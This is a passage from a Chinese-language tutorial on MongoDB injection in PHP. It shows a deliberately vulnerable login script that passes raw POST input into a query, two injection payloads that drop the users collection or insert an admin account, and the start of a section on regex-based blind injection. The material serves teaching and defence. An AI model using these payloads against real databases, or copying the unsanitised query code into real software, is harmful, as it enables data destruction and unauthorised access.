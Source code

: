 ```php
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

这样都是很危险的，因为这个就相当于把 Mongo Shell 开放给了用户，如果此时构造下列 payload：

```php
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

则将改变原本的查询语句造成注入。如果当前应用连接数据库的权限恰好很高，我们能干的事情就更多了。

### Nosql 盲注

**重言式布尔盲注**

当页面没有回显时，那么我们可以通过 `$regex` 等正则表达式来构造永真条件进行盲注， `$regex` 可以达到和传统 SQL 注入中 `substr()` 函数相同的功能。

我们用下面的代码演示：

- index.php

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```
